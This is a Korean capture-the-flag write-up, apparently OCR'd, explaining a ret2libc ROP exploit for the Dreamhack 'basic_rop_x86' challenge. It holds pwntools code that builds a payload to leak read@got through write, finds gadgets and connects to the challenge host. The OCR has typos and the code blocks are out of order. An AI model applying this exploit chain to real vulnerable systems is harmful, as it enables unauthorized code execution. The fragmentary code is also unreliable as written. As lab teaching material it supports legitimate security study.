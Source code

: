 ``` python
: 최종 실제 주소는:
: binsh_addr = libc_base + sh_offset
'''
read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh_offset = list(libc.search(b"/bin/sh"))[0]

pop_ret = r.find_gadget(['pop ebp', 'ret'])[0]
pop2_ret = r.find_gadget(['pop edi', 'pop ebp', 'ret'])[0]
pop3_ret = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

# Stage 1
'''
1. C소스에서 buf는 [ebp-0x44]의 위치에 있다. 해서 0x44 + 0x04(SFP) = 48
2. 스택의 다음 주소인 리턴주소를 wreit@ple로 설정
3. pop3_ret 가젯이 실행되면서 스택 값들이 레지스터/스택으로 들어감.
   결과적으로:
   fd = 1 (stdout)
   buf = read_got (GOT 에 적힌 read 실제 libc 주소)
   size = 4(4바이트만 출력)
   즉, write(1, read_got, 4) 실행 -> read 실제 주소 leak
4. write() 호출이 끝나면 main() 으로 복귀
   프로그램이 초기 상태로 리셋 -> 두 번째 공격 가능
'''
payload = b'A' * 0x48
payload += p32(write_plt)
payload += p32(pop3_ret)
payload += p32(1) + p32(read_got) + p32(4)
payload += p32(main)


```

#### 8) 구해진 read@got를 이용하여 system, sh 주소 구하기

``` python
from pwn import *

TEST = True
if TEST:
    p = process("./basic_rop_x86")
    e = ELF("./basic_rop_x86")
    libc = e.libc
else:
    p = remote('host3.dreamhack.games', 13458)
    e = ELF("./basic_rop_x86")
    libc = ELF("./libc.so.6")

# ROP(e)는 ELF에서 ROP 가젯을 자도응로 수집해서 활용할 수 있게 해 줌.
r = ROP(e)

'''
read_plt = e.plt["read"]
: read() 함수의 PLT(Procedure Linkage Table) 엔트리 주소.
: 프로그램이 read()를 호출할 때 실제로 점프하는 위치.
: 즉, ROP 체인에서 call read 같은 효과를 주고 싶을 때 사용.

read_got = e.got["read"]
: read() 함수의 GOT(Global Offset Table) 엔트리 주소.
: 실행 시작 시 read()의 실제 libc 주소가 없으므로, 처음 호출될 때 resolve 되어 GOT에 기록됨.
: puts(read_got) 같은 식으로 출력하면 libc의 실제 read() 주소를 leak할 수 있음.

main = e.symbols["main"]
: main() 함수의 주소.
```